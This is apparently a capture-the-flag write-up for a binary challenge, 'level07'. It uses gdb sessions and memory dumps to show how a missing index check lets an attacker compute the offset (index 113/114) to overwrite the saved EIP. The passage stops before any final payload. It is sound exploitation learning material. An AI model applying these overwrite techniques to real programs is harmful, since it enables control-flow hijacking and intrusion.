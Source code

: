 Since they dont do index size checking, we are able to segfault the program if we provide a faulty index.

![image](https://hackmd.io/_uploads/SJiut0yw6.png)

To determind the offset to the EIP, we try to input a test value and inspect the memory layout of the program.

```
cat << EOF > /tmp/level07
store
286331153
1
quit
EOF

gdb ./level07
b *0x80486ce
lay asm
focus cmd
tty /dev/pts/0
set disassembly-flavor intel
run < /tmp/level07
```
As we can see, `meat` at index 1 is at `0xffffd548`. And the EIP is at `0xffffd70c`. We are able to overwrite the EIP since the **EIP address is > the buffer address**. With this , we are able to find the offset which is `70c - 548 = 1C4 or 452 in base 10`.

```
(gdb) x/10x $eax
0xffffd548:     0x11111111      0x00000000      0x00000000      0x00000000
0xffffd558:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd568:     0x00000000      0x00000000
...
...

(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x80488ef in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704, eip at 0xffffd70c
```

The index we need to write to will be `452 / 4 = 113`. We can test this out
As we can see, we are 4 bytes before the EIP address. However, to actually overwrite the EIP, we need to input as index `114`, which is not allowed by the function. 
```
cat << EOF > /tmp/level07
store
286331153
113
quit
EOF

gdb ./level07
b *0x80486ce
b *0x80488ef
lay asm
focus cmd
tty /dev/pts/0
set disassembly-flavor intel
run < /tmp/level07
```
![image](https://hackmd.io/_uploads/rkWv71eDa.png)
